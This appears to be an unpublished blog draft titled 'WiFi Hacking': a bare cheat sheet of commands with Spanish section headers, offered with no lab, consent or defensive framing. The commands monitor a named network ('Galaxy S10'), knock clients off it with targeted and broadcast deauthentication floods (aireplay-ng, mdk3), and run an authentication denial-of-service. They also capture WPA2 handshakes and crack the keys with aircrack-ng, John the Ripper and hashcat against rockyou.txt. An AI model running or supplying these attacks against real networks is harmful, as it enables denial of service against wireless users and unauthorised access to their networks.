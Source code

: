 ```yaml
---
title: WiFi Hacking
categories: [WiFi, WPA2]
published: false
---
```


############################################################################################################################
iwlist wlx28ee520662f5 scan | grep ESSID -i


#########################################################################################################MONITORIZACIÓN/HELP
airodump-ng --help
	--channel / -c
	--essid
	--write   / -w


##############################################################################################################MONITORIZACIÓN
airodump-ng wlx28ee520662f5
airodump-ng -c 1 --essid "Galaxy S10" wlx28ee520662f5
airodump-ng -w capture -c 1 --essid "Galaxy S10" wlx28ee520662f5


#################################################################################################################DEAUTH/HELP
aireplay-ng --help
	-0 / --deauth
	-a / bssid    / set Access Point MAC address
	-c / dmac     / set Destination  MAC address

mdk3 --help
	d  / Deauthentication/Disassociation Amok Mode / Kicks everybody found from AP
	-b / Blacklist
	-c / Channel
	-w / Whitelist



#################################################################################################################DEAUTH/DIR
aireplay-ng -0 10 -a D6:53:83:E6:4D:2B -c 78:0C:B8:B0:95:23 wlx28ee520662f5

mdk3  d -b blacklist
mdk3  d -b blacklist -c 1


################################################################################################################DEAUTH/GLOB
aireplay-ng -0 10 -a D6:53:83:E6:4D:2B -c FF:FF:FF:FF:FF:FF wlx28ee520662f5
aireplay-ng -0 10 -a D6:53:83:E6:4D:2B wlx28ee520662f5

mdk3 wlx28ee520662f5 d
mdk3 wlx28ee520662f5 d -c 1


###################################################################################################################AUTH/HELP
mdk3 --help
	a  / Authentication DoS mode
	-i / This test connects clients to the AP and reinjects sniffed data to keep them alive


########################################################################################################################AUTH
mdk3 wlx28ee520662f5 a -i D6:53:83:E6:4D:2B


###############################################################################################################ANALYSIS/HELP
pyrit -help
	-r      / Packet capture source in pcap-format
	analyze / Analyze a packet-capture file	


####################################################################################################################ANALYSIS
pyrit -r Capture-01.cap analyze


###############################################################################################################ANALYSIS/HELP
aircrack-ng --help
	<file>


####################################################################################################################ANALYSIS
aircrack-ng capture-01.cap


###############################################################################################################CRACKING/HELP
aircrack-ng --help
	-J <file>  / create Hashcat file (HCCAP)
	-j <file>  / create Hashcat v3.6+ file (HCCAPX)
	-w <words> / path to wordlist(s)


####################################################################################################################CRACKING
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap


#####################################################################################################################CRACKING
aircrack-ng -J hccapture capture-01.cap
hccap2john hccapture.hccap >> hashCapture
john --wordlist=usr/share/wordlists/rockyou.txt hashCapture
for i in $(seq 1 10000); do echo "YEPA$i" >> dictionary; done


######################################################################################################################CRACKING
hashcat -m 2500 hashcatCapture.hccapx /usr/share/wordlists/rockyou.txt
hashcat --help | grep "WPA"
